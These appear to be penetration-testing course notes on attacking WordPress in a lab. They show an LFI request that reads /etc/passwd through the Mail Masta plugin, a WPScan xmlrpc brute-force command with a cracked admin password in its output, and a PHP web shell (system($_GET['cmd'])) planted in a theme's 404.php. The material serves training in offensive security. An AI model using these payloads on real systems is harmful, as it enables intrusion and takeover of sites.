 ## Exploiting a Vulnerable Plugin

### Leveraging WPScan Results

From the results of the WPScan we saw two vulnerable plugins:
- Mail Masta 1.0
- Google Review Slider

Mail Msata is vulnerable to SQLi and LFI, and the report also has URLs to PoCs that provide information on how to exploit them.

For example the LFI can be exploited in the following way based on the `exploit-db` report, which states that any unauthenticated user can read local files through the path:

`/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd`.


## Attacking WordPress Users

### WordPress User Bruteforce

This can also be done by using WPScan. The report returned three users:
- admin
- roger
- david

WPScan uses two kinds of login brute force attacks:
- xmlrpc - uses WordPress API to make login attempts through `/xmlrpc.php` - faster.
- wp-login - attempt to brute force the normal login page

**xmlrpc**
```sh
wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://blog.inlanefreight.com

[+] URL: http://blog.inlanefreight.com/                                                  
[+] Started: Thu Apr  9 13:37:36 2020                                                                                                                                               
[+] Performing password attack on Xmlrpc against 3 user/s

[SUCCESS] - admin / sunshine1
Trying david / Spring2016 Time: 00:00:01 <============> (474 / 474) 100.00% Time: 00:00:01

[i] Valid Combinations Found:
 | Username: admin, Password: sunshine1
```


## RCE via the Theme Editor

### Attacking the WordPress Backend

With admin access we can modify the PHP source code to execute system commands.

After logging in to the admin panel, and going on `Apperance` then `Theme Editor` we can edit the PHP source code directly.

We should select an inactive theme to avoid corrupting the main one, and then on a non-critical file such as `404.php` we can add a web shell.

```php
<?php

system($_GET['cmd']);

/**
 * The template for displaying 404 pages (not found)
 *
 * @link https://codex.wordpress.org/Creating_an_Error_404_Page
<SNIP>
```

